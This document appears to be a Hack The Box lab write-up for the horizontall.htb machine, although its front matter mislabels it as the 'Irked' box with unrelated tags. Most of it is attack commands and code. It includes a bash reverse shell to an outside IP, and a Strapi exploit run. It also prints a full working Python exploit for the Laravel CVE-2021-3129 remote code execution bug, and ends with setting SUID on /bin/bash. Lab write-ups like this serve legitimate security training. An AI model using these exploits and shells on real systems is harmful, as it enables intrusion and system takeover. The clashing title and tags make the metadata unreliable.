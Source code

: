```yaml
---
layout: single
title: Irked - Hack The Box
excerpt: "Irked is a pretty simple and straight-forward box which requires basic enumeration skills. It shows the need to scan all ports on machines and to investigate any out of the place binaries found while enumerating a system."
date: 2025-05-22
classes: wide
header:
  teaser: /img2/irked.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - UnrealIRCd 3.2.8.1 Exploitation (RCE)
  - Abusing SUID Binary
  - SUID Binary Exploitation [Privilege Escalation]
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.105
```

![](/img2/Pasted%20image%2020250521142851.png)

- Add domain to local DNS

```bash
echo "10.10.11.105 horizontall.htb" >> /etc/hosts
```

- Whatweb

```bash
whatweb http://horizontall.htb/
```

![](/img2/Pasted%20image%2020250521144005.png)

- Inspect source code

```bash
curl http://horizontall.htb/ | grep href=
```

![](/img2/Pasted%20image%2020250521151913.png)

- Inspect source code files

```bash
curl http://horizontall.htb/js/app.c68eb462.js | grep htb
```

![](/img2/Pasted%20image%2020250521152212.png)

- Whatweb

```bash
whatweb http://api-prod.horizontall.htb
```

![](/img2/Pasted%20image%2020250521152302.png)

## Exploitation

- Strapi Set Password

```bash
searchsploit Strapi
```

![](/img2/Pasted%20image%2020250521152550.png)

```bash
searchsploit -m multiple/webapps/50239.py
```

```bash
python3 50239.py http://api-prod.horizontall.htb
```

![](/img2/Pasted%20image%2020250521152726.png)

- Reverse Shell

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.7/9000 0>&1'
```

![](/img2/Pasted%20image%2020250521153004.png)

```bash
nc -nlvp 9000
```

## Post-exploitation

- Check internal ports

```bash
netstat -nlpt
```

![](/img2/Pasted%20image%2020250521160104.png)

- Check port 8000 website

```bash
curl localhost:8000
```

![](/img2/Pasted%20image%2020250521160214.png)

- CVE-2021-3129 Lavarel RCE

```python
#!/usr/bin/env python3
import requests
import subprocess
import re
import os
import sys


# Send a post request with a specific viewFile value, returning HTTP response
def send(url='', viewfile=''):
    headers = {
        "Accept": "application/json"
    }
    data = {
        "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
        "parameters": {
            "variableName": "whateverYouWant",
            "viewFile": ""
        }
    }
    data['parameters']['viewFile'] = viewfile
    resp = requests.post(url, json=data, headers=headers, verify=False)
    return resp


# Generate payload and return it as text
def generate(chain='', command=''):
    # Ensure that we have PHPGGC in current directory, if not we'll clone it
    if os.path.exists("phpggc"):
        print("[+] PHPGGC found. Generating payload and deploy it to the target")
    else:
        print("[i] PHPGGC not found. Cloning it")
        os.system("git clone https://github.com/ambionics/phpggc.git")
    payload = subprocess.getoutput(
        r"php -d'phar.readonly=0' ./phpggc/phpggc '%s' system '%s' --phar phar -o php://output | base64 -w0 | "
        r"sed -E 's/./\0=00/g; s/==/=3D=/g; s/$/=00/g'" % (chain, command))
    return payload


# Clear logs,
def clear(url):
    print("[i] Trying to clear logs")
    while (send(url,
                "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf"
                "-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log").status_code != 200):
        continue
    print("[+] Logs cleared")


if __name__ == '__main__':
    if len(sys.argv) < 4:
        print("Usage:   %s <URL> <CHAIN> <CMD>" % sys.argv[0])
        print("Example: %s http(s)://localhost:8000 Monolog/RCE1 whoami" % sys.argv[0])
        print("I recommend to use Monolog/RCE1 or Monolog/RCE2 as CHAIN")
        exit(1)
    url = sys.argv[1] + "/_ignition/execute-solution"
    chain = sys.argv[2]
    command = sys.argv[3]

    # Step 1. Clear logs, write the first log entry
    clear(url)
    send(url, "AA")

    # Step 3. Write the second log entry with encoded PHAR payload
    send(url, generate(chain, command))

    # Step 4. Convert log file to a valid PHAR
    if (send(url,
             "php://filter/read=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64"
             "-decode/resource=../storage/logs/laravel.log").status_code == 200):
        print("[+] Successfully converted logs to PHAR")
    else:
        print("[-] Fail to convert logs to PHAR")

    # Step 5. Trigger PHAR deserialization, extract the output
    response = send(url, "phar://../storage/logs/laravel.log")
    result = re.sub("{[\s\S]*}", "", response.text)
    if result:
        print("[+] PHAR deserialized. Exploited\n")
        print(result)
    else:
        print("[i] There is no output")

    # Clear logs
    clear(url)
```

```bash
git clone https://github.com/ambionics/phpggc.git/ 
tar -cvf phpggc.tar phpggc
python3 -m http.server
```

```bash
curl -o phpggc.tar http://10.10.16.7:8000/phpggc.tar
tar -xf phpggc
```

```bash
python3 exploit.py http://localhost:8000 Monolog/RCE1 "chmod u+s /bin/bash"
```

![](/img2/Pasted%20image%2020250521162225.png)

![](/img2/Pasted%20image%2020250521162148.png)